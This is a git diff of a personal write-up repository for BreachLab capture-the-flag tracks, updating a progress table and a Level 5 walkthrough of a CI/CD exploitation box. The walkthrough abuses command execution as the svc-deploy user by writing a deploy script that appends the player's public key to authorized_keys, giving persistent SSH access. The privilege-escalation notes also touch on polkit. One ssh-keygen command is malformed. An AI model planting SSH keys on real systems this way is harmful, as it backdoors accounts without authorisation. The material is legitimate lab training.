

Fixed infors

diff --git a/README.md b/README.md
@@ -42,7 +42,7 @@ Using BreachLab means you've read these and you're in. No checkbox.
 ## 📚 Categories
 | Path | Link | Status | Challenges Completed | Description |
 |----------|--------|--------|---------------------|--------------|
-| [Ghost](1%20-%20Ghost/) | [Ghost Path Link](https://breachlab.org/tracks/ghost) | 🟢 Started | 22 | Where every operator starts, in two parts. Ghost I is Linux and shell fundamentals. Ghost II, Secrets Sprawl, is CI/CD pipeline exploitation from foothold to supply chain. Real boxes, graded server side. |
+| [Ghost](1%20-%20Ghost/) | [Ghost Path Link](https://breachlab.org/tracks/ghost) | 🟢 Started | 22 & 5 | Where every operator starts, in two parts. Ghost I is Linux and shell fundamentals. Ghost II, Secrets Sprawl, is CI/CD pipeline exploitation from foothold to supply chain. Real boxes, graded server side. |
 | [Phantom](2%20-%20Phantom/) | [Phantom Path Link](https://breachlab.org/tracks/phantom) | 🟡 Planning | 0 | Post-exploitation, in two parts. Phantom II Cloud Native is live, eighteen levels from container to Kubernetes to cloud account, graded server side, not a quiz. Phantom I Post-Exploitation is coming. |
 | [Specter](3%20-%20Specter/) | [Specter Path Link](https://breachlab.org/tracks/specter) | 🟡 Planning | 0 | Recon & initial access — how you get in. A four-part series: OSINT, network & wireless, defence evasion & disruption, and social engineering. Specter I (OSINT, 14 levels) and Specter II (network & wireless, eight levels) are live; III–IV are planned. |
 | [Mirage](4%20-%20Mirage/) | [Mirage Path Link](https://breachlab.org/tracks/mirage) | 🟡 Planning | 0 | Web application exploitation, in two parts. Mirage I — the full ladder from recon to AI, 41 browser targets: client trust, broken access control, BaaS/RLS, auth & tokens, the injection family, XSS, SSRF, deserialization, GraphQL, and AI/LLM attacks. Mirage II — the advanced sequel, 12 targets: cache deception, request smuggling, parser desync, HTTP/2 downgrade, single-packet races, and deserialization RCE. |

diff --git a/1 - Ghost/Track II - Secrets Sprawl/Level 5/README.md b/1 - Ghost/Track II - Secrets Sprawl/Level 5/README.md
@@ -153,7 +153,9 @@ ls -laR /etc/polkit-1
 ```
 ![polkit](static/image-10.png)
 
-Alright. Now let's get our path up.
+So clearly, polkit is gonna be used at some point.
+
+Anyhow. Now let's get our path up.
 
 ### Step 4:
 Firstly we will check the most obvious ones, first, the `/opt/halcyon` folder:
@@ -179,13 +181,25 @@ cat /tmp/id
 
 Alright... So we have command execution as the svc-deploy user... Cool.
 
-Using this, we can write a script to get a bash shell as this user:
+Let's get an ssh connection, first, the keys:
+```bash
+ssh-keygen ed25519 -t ed25519 -f ~/.ssh/id_ed25519_backup
+```
+![Key creation](static/image-13.png)
+
+Alright, we have our two keys, let's get our public key:
+```bash
+cat id_ed25519.pub
+```
+![public key](static/image-14.png)
+
+Using this, we can write a script to get a ssh connection as this user:
 ```bash
 cat << 'EOF' > /opt/halcyon/deploy-step.sh
 #!/usr/bin/env bash
 mkdir -p /home/svc-deploy/.ssh
 chmod 700 /home/svc-deploy/.ssh
-echo 'ssh-ed25519 <your_key> pipeline@6a2b595b5846' >> /home/svc-deploy/.ssh/authorized_keys
+echo 'ssh-ed25519 <your-key> pipeline@<yourdockerID> (this part is not obligated)' >> /home/svc-deploy/.ssh/authorized_keys
 chmod 600 /home/svc-deploy/.ssh/authorized_keys
 exit 0
 EOF
